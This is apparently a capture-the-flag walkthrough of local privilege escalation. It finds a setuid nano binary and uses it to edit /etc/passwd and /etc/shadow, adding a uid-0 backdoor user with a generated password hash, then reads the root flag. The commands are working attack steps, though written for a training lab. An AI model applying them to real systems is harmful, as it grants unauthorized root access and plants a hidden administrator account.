
looks like we can login easily as zeamkish

after some manual enumeration I decided to use linpease.sh

looks like its vulnerable to CVE-2021-3560, unfortunately exploits were not working as I expected.

```bash
find / -perm -04000 -type f -ls 2>/dev/n 

316 -rwsr-xr-x   1 root     root              320136 Apr 10  2020 /usr/bin/nano


```
looks like I can use nano as root, so I can read and edit /etc/passwd and /etc/shadow:

```bash
nano /etc/passwd
# I added new user:
test:x:0:0:root:/root:/bin/bash

# generating password hash for new user
openssl passwd -1 salt test password

# open shadow file
nano /etc/shadow
# add user with hash generated before:
test:$1$test$C5gTd1RYpgKDj4WuX5yG8/:19519:0:99999:7:::

# switch to test user:
su test

# now you are root, get flag!
cat /root/flag.txt

```
